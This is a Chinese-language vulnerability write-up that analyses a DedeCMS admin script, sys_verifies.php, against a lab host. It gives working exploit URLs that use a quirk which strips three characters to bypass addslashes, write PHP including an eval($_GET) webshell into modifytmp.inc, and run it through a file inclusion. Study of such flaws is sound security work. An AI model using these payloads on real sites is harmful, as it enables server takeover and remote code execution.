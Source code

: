 我们首先尝试传入测试字符串：

payload_test1

```
http://10.10.10.143/Dedecms/dede/sys_verifies.php?action=getfiles&refiles[]=hummer
```



![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220405170604.png)

前三个字母被删除了，因为源代码中有如下操作：

```php
$filename = substr($filename,3,strlen($filename)-3);        # 去掉$filename中的前三个字符
```

我们尝试写入自己的命令：

```php
http://10.10.10.143/Dedecms/dede/sys_verifies.php?action=getfiles&refiles[]=123"phpinfo(); die(); //
```

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220405204456.png)

发现单引号和双引号都被转义了，因为Ddedecms在common.inc.php中对代码进行了全局addslash()过滤，会将双引号，单引号，斜杠前都加上一个斜杠

这里有个非常有意思的东西，我们输入的内容前三个字符会被删除掉，如果我们只输入```/"```,过滤后就会变成```///"```,程序恰好会帮助我们删除三个斜杠，这样就能成功过滤addslash函数了。

再次尝试修改我们的payload

```php
http://10.10.10.143/Dedecms/dede/sys_verifies.php?action=getfiles&refiles[]=\";phpinfo(); die(); //
```

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220405204613.png)

成功写入！！

此文件在\$action=down的部分还存在文件包含漏洞

我们向modifytmp.inc中写入测试代码：

```php
http://10.10.10.143/Dedecms/dede/sys_verifies.php?action=getfiles&refiles[]=\";eval($_GET[a]); die(); //
```



![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220405191545.png)

上图代码中存在文件包含漏洞，尝试利用

```
http://10.10.10.143/Dedecms/dede/sys_verifies.php?action=down&a=echo 'hummer';
```

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220405205404.png)
